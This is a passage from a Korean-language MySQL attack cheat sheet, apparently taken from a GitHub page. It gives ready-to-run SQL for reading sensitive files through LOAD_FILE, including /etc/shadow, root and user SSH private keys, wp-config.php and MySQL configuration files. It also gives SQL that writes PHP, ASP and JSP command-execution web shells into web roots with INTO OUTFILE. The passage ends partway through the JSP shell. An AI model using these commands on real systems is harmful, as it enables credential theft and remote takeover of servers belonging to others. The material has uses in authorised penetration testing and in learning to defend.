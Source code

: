 ### 📁 FILE 권한 있는 경우 (파일 읽기/쓰기)

```bash
# FILE 권한 확인
SELECT user, file_priv FROM mysql.user WHERE user = user();

# 중요 시스템 파일 읽기
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/etc/shadow');
SELECT LOAD_FILE('/etc/hosts');
SELECT LOAD_FILE('/proc/version');

# Windows 시스템 파일
SELECT LOAD_FILE('C:/windows/system32/drivers/etc/hosts');
SELECT LOAD_FILE('C:/boot.ini');

# 웹 애플리케이션 설정 파일
SELECT LOAD_FILE('/var/www/html/config.php');
SELECT LOAD_FILE('/var/www/html/wp-config.php');
SELECT LOAD_FILE('/etc/apache2/sites-enabled/000-default.conf');

# SSH 키 파일
SELECT LOAD_FILE('/home/user/.ssh/id_rsa');
SELECT LOAD_FILE('/root/.ssh/id_rsa');

# MySQL 설정 파일
SELECT LOAD_FILE('/etc/mysql/my.cnf');
SELECT LOAD_FILE('/etc/my.cnf');
```

### 🌐 웹쉘 업로드 (웹 서비스 연계)

```bash
# 웹 루트 디렉토리 확인
SELECT @@datadir;
SHOW VARIABLES LIKE 'secure_file_priv';

# PHP 웹쉘 업로드
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';

# 더 정교한 웹쉘
SELECT '<?php
if(isset($_GET["cmd"])) {
    echo "<pre>";
    system($_GET["cmd"]);
    echo "</pre>";
}
?>' INTO OUTFILE '/var/www/html/cmd.php';

# ASP 웹쉘 (Windows IIS)
SELECT '<% eval request("cmd") %>' INTO OUTFILE 'C:/inetpub/wwwroot/shell.asp';

# JSP 웹쉘 (Tomcat)
SELECT '<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) {
        out.println(line + "<br>");
    }
}
```